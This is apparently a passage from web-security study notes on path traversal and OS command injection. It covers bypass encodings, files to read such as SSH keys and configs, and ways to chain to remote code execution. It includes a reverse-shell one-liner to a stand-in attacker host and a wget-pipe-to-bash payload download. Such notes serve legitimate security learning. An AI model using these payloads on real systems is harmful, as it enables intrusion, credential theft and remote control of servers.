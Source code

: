 **Bypass Techniques:**
- Use absolute file paths (e.g., `/etc/passwd`)
- Nested traversal sequences (`....//`, `....\/`)
- URL encoding traversal characters (`%2e%2e%2f`)
- Double URL encoding (`%252e%252e%252f`)
- Null byte termination (`../../../etc/passwd%00.png`)
- Using different directory separator variations

**Path to RCE:**
- Read sensitive files: SSH private keys (`~/.ssh/id_rsa`), config files with credentials
- Chain with file upload to write to arbitrary locations (e.g., web root)
- Overwrite `.htaccess` or web server config files for code execution
- Read application source code to find other RCE vulnerabilities
- Access database credentials from config files, then exploit SQL injection for RCE
- On Windows: read `web.config`, `applicationHost.config` for sensitive data

**Key Points:**
- Avoid passing user input to filesystem APIs
- Validate input against a whitelist of allowed values
- Use platform filesystem APIs to canonicalize paths
- Verify canonicalized path starts with expected base directory
- Impact: reading sensitive files, server compromise, credential theft
- Can lead to further attacks with gained information, **potential RCE via chaining**

---

### Command Injection ⭐ DIRECT RCE
**URL:** https://portswigger.net/web-security/os-command-injection

**Description:**
OS command injection allows an attacker to execute operating system commands on the server, potentially compromising the application and infrastructure. **This is a direct path to RCE.**

**Attack Vectors:**
- Command separators: `&`, `&&`, `|`, `||`, `;`, newline
- Inline command execution: backticks, `$()`
- Blind injection using time delays (`ping`)
- Output redirection to accessible files
- Out-of-band network interactions (DNS, HTTP)

**Bypass Techniques:**
- Terminating quoted contexts with `'` or `"`
- Chaining commands with different separators
- Exploiting shell metacharacters across OS types
- Using variable expansion
- Exploiting wildcard characters
- Injecting into command arguments

**Path to RCE:**
- ✅ **IMMEDIATE RCE** - This IS remote code execution
- Establish reverse shell: `bash -i >& /dev/tcp/attacker-ip/port 0>&1`
- Download and execute payloads: `wget http://attacker/shell.sh | bash`
- Create backdoor users, modify SSH keys
- Escalate privileges if running as web user
